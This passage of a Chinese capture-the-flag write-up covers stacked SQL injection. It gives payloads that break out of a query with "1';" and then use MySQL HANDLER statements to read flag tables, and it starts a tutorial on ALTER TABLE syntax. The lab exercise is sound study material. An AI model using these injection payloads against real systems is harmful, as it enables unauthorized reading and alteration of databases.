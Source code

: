 ```mysql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```



这的解法同样适用于随便注：

```mysql
1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```







## 小结

随便注中所说`安全与开发缺一不可`，结合wp堆叠注入的利用确实发人深省；
堆叠注入本就是以分号闭合前面语句，后面的命令全靠自己对sql的命令了解程度。
wp中的三种解法都是需要对sql语句有一定了解才整的出的~

终究是重在积累，要搭好地基啊

![先随便建个库和表](https://i.loli.net/2021/03/09/UmXv1rDdRlbOk8T.png)



### alert

alter：修改已知表的列（ 添加：add | 修改：modify，change | 删除：drop）

- 添加列


```mysql
alter table "table_name" add "column_name" type [first|after "column_name"];
```

![](https://i.loli.net/2021/03/09/NsIdApcy2Ji8LKl.png)

- 删除列


```mysql
alter table "table_name" drop "column_name";
```

![](https://i.loli.net/2021/03/09/ChgRjNpH8X6icv1.png)

- 改表名

```mysql
alter table "table_name1" rename to "table_name2";
```

- 改变字段的数据类型

